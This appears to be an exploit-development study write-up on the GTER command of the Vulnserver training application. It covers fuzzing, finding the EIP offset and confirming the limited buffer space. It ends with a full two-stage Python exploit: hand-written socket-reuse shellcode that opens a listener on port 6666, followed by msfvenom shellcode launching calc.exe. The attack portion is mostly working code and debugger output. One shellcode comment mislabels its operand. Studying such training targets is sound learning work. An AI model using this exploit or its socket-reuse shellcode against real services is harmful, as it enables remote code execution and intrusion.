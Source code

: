 ## <ins>GTER</ins>

As with TRUN and GMON, the prefix gets updated accordingly.

This time, there are two calls to `_strncpy`, one of them residing in `_Function1`:

![bc8935e6ca1ae81646852f309a997048.png](:../../../C\)%20Images/daa53b9ab822430992cbf166ec423086.png)

```Python
[...]

prefix = b'GTER '
buffer = b'A' * 4096

payload = prefix + buffer 

[...]
```

Following the execution flow in WinDbg reveals that the second `_strncpy` is vulnerable to a buffer overflow and EIP gets overwritten as soon as the function returns.

![372aa286a0f8a3156e6b4545b0cb2d4d.png](:../../../C\)%20Images/089bfc7c26c4473bacca004624b30a92.png)

After confirming that GTER is vulnerable, it is time to determine the exact offset to overwrite the instruction pointer:

```Python
[...]

prefix = b'GTER '
# msf-pattern_create -l 4096
buffer = 
b'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7[...]f4Ff5Ff6Ff7Ff8Ff9Fg0Fg1Fg2Fg3Fg4F'

payload = prefix + buffer 

[...]
```

EIP was overwritten with `66413066` which is equivalent to the offset 151 in the unique pattern.

Adjusting the script and checking for the available buffer space shows, that it is very limited:

```Python
[...]

prefix = b'GTER '
buffer = b'A' * 151
eip = b'BBBB'
junk = b'C' * 2000

payload = prefix + buffer + eip + junk

[...]
```

![249d4c7337cdddc2ff23af94b9c23219.png](:../../../C\)%20Images/58c30c6fc3b840e7b06a067a72210ce3.png)

This means, it is required to either use jumpcode or an egghunter in order to execute the actual shellcode.

There is very little space available in general, because of that a technique called *socket reuse* will be used.
This technique is explained way more detailed here:

- [https://connormcgarr.github.io/WS32_recv()-Reuse/](https://connormcgarr.github.io/WS32_recv%28%29-Reuse/ "https://connormcgarr.github.io/WS32_recv()-Reuse/")
- https://rastating.github.io/using-socket-reuse-to-exploit-vulnserver/
- https://zflemingg1.gitbook.io/undergrad-tutorials/walkthroughs-osce/vulnserver-gter-command

### Socket Reconstructing Technique

The application was started via WinDbg so that it gets interrupted immediately, then the following breakpoints were set:

```Text
bp ws2_32!socket
bp ws2_32!bind
bp ws2_32!listen
bp ws2_32!accept
bp ws2_32!recv
```

Afterwards, the execution was continued and the PoC script executed to obtain the address of calls to the functions listed above:

| Address | Function |
| --- | --- |
| `0040156C` | ws2_32!socket |
| `004015E0` | ws2_32!bind |
| `00401653` | ws2_32!listen |
| `004016DA` | ws2_32!accept |
| `00401953` | ws2_32!recv |

```Python
#!/usr/bin/python3

import socket, sys
from struct import pack
from time import sleep


ip = sys.argv[1]
port = 9999		

length = 151

prefix = b'GTER '
buffer = None
eip = pack('<L', 0x625011af)

jumpcode = b'\xe9\x60\xff\xff\xff'      # Backwards jump of 0x60

#WS32_recv() reuse

# ws2_32!socket (2, 1, 6)

re = b'\x83\xEC\x50'      # sub esp, 0x50
re += b'\x83\xEC\x50'     # sub esp, 0x50

re += b'\x31\xC0'         # xor eax, eax
re += b'\xB0\x06'         # mov al, 0x6
re += b'\x50'           # push eax
re += b'\xB0\x01'         # mov al, 0x1
re += b'\x50'           # push eax
re += b'\x40'           # inc eax
re += b'\x50'           # push eax
re += b'\xBB\x11\x7C\x25\x40'   # mov ebx, 0x40256c11
re += b'\xC1\xEB\x08'   # shr ebx, byte 0x8
re += b'\xff\xd3'       # call ebx
re += b'\x89\xC7'       # mov edi, eax 

'''
EDI holds the file descriptor
ws2_32!socket was called
'''

# WS2_32!bind (socket, name, namelen)

re += b'\x31\xC0'       # xor eax, eax 
re += b'\x50'           # push eax
re += b'\x50'           # push eax

re += b'\xBA\x02\xFF\x1A\x0A'   # mov edx, 0xa1aff02
re += b'\x30\xf6'   # xor dx, dx

re += b'\x54'           # push esp
re += b'\x59'           # pop ecx 

re += b'\x6A\x16'       # push 0x16 
re += b'\x89\x11'       # mov DWORD PTR [ecx], edx
re += b'\x51'           # push ecx 
re += b'\xb3\x64'       # mov bl, 0x64

re += b'\x57'           # push edi (file descriptor)
re += b'\xff\xd3'       # call ebx

# WS2_32!listen 

re += b'\xb3\x54'       
re += b'\x6a\x7f'       # BACKLOG (Pushed to stack)
re += b'\x57'           # push edi (socket descriptor)
re += b'\xff\xd3'       # call ebx (invoke the listener function)

# WS2_32!accept 

re += b'\x50'           # push eax
re += b'\x50'           # push eax
re += b'\x57'           # push edi (file descriptor)
re += b'\xb3\x4c'       # mov bl, 0x4c
re += b'\xff\xd3'       # call ebx

# ws2_32!recv 

re += b'\x89\xC7'       # mov edi, eax (saves the return value from WS2_32!accept)
re += b'\x31\xC0'       # xor eax, eax 
re += b'\x50'           # push eax  (flags param)
re += b'\xb4\x02'       # mov ah, 0x2
re += b'\x50'           # push eax  (buffer len (512 bytes))

re += b'\x54'           # push esp
re += b'\x59'           # pop ecx 
re += b'\x66\x83\xC2\x65'   # add dx, byte +0x65
re += b'\x66\x83\xC2\x60'   # add dx, byte +0x65
re += b'\x51'           # push ecx 

re += b'\x57'           # push edi (socket handler)
re += b'\xB3\x2C'       # mov bl, 0x2c
re += b'\xff\xd3'       # call ebx

  


buffer = b"\x90" * 4 + re + b'\x90' * (length - len(re)- 4)

payload = prefix + buffer + eip + jumpcode

try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.settimeout(5)
        s.connect((ip, port))
        print('[*] Sending stage 1')
        s.send(payload)
except Exception as e:
    print(e)
    sys.exit(0)

#input('waiting to connect...')
sleep(3)

nopsled = b'\x90' * 200

# msfvenom -p windows/exec cmd=calc.exe -b "\x00" -f py -v shellcode
shellcode =  b""
shellcode += b"\xda\xda\xd9\x74\x24\xf4\xbb\x43\x24\xcc\xc7"
shellcode += b"\x5d\x2b\xc9\xb1\x31\x31\x5d\x18\x83\xc5\x04"
shellcode += b"\x03\x5d\x57\xc6\x39\x3b\xbf\x84\xc2\xc4\x3f"
shellcode += b"\xe9\x4b\x21\x0e\x29\x2f\x21\x20\x99\x3b\x67"
shellcode += b"\xcc\x52\x69\x9c\x47\x16\xa6\x93\xe0\x9d\x90"
shellcode += b"\x9a\xf1\x8e\xe1\xbd\x71\xcd\x35\x1e\x48\x1e"
shellcode += b"\x48\x5f\x8d\x43\xa1\x0d\x46\x0f\x14\xa2\xe3"
shellcode += b"\x45\xa5\x49\xbf\x48\xad\xae\x77\x6a\x9c\x60"
shellcode += b"\x0c\x35\x3e\x82\xc1\x4d\x77\x9c\x06\x6b\xc1"
shellcode += b"\x17\xfc\x07\xd0\xf1\xcd\xe8\x7f\x3c\xe2\x1a"
shellcode += b"\x81\x78\xc4\xc4\xf4\x70\x37\x78\x0f\x47\x4a"
shellcode += b"\xa6\x9a\x5c\xec\x2d\x3c\xb9\x0d\xe1\xdb\x4a"
shellcode += b"\x01\x4e\xaf\x15\x05\x51\x7c\x2e\x31\xda\x83"
shellcode += b"\xe1\xb0\x98\xa7\x25\x99\x7b\xc9\x7c\x47\x2d"
shellcode += b"\xf6\x9f\x28\x92\x52\xeb\xc4\xc7\xee\xb6\x82"
shellcode += b"\x16\x7c\xcd\xe0\x19\x7e\xce\x54\x72\x4f\x45"
shellcode += b"\x3b\x05\x50\x8c\x78\xe9\xb2\x05\x74\x82\x6a"
shellcode += b"\xcc\x35\xcf\x8c\x3a\x79\xf6\x0e\xcf\x01\x0d"
shellcode += b"\x0e\xba\x04\x49\x88\x56\x74\xc2\x7d\x59\x2b"
shellcode += b"\xe3\x57\x3a\xaa\x77\x3b\x93\x49\xf0\xde\xeb"

try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.settimeout(5)
        s.connect((ip, 6666))
        print('[*] Sending stage 2')
        #input('waiting to send...')
        sleep(1)
        s.send(nopsled + shellcode)
except Exception as e:
    print(e)
    sys.exit(0)
```

